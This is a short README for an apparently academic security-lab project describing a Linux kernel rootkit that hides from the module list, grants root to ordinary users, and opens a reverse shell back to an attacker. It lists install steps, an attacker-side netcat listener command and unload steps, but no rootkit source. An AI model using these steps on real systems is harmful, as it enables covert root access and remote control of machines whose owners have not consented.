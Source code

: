 # Securitylab Project - Root Privileges Reverse Shell

## Team Member
Sittichok Thanomkulrat and Xianze Zhan

## Tested Environment
Ubuntu 16.04(64 bit) with Kernel 4.4.0

## What Does it do?
We implemented a rootkit module. It can hide itself from the module list and grant the root access for standard user after it has been installed. The non-root user can then run the reverse shell script to open a root reverse shell and connect back to the attacker. 

## File You May Care
- install_rootkit.sh
- reverse_shell.sh
- rootkit.c
- rootkit.h

## How to Load & Run? <br />
On target bot side: <br />
  make <br />
  sudo ./install_rootkit.sh <br />
  
On Attacker side: <br />
  nc -l -p <listen_port> -vvv <br />
  
Standard user on target side:
  ./reverse_shell.sh
You may modify the attacker server ip address & listen port in the reverse_shell script <br />

## How to Unload？<br />
  echo "unhide" > /proc/CS460/status
  sudo rmmod rootkit
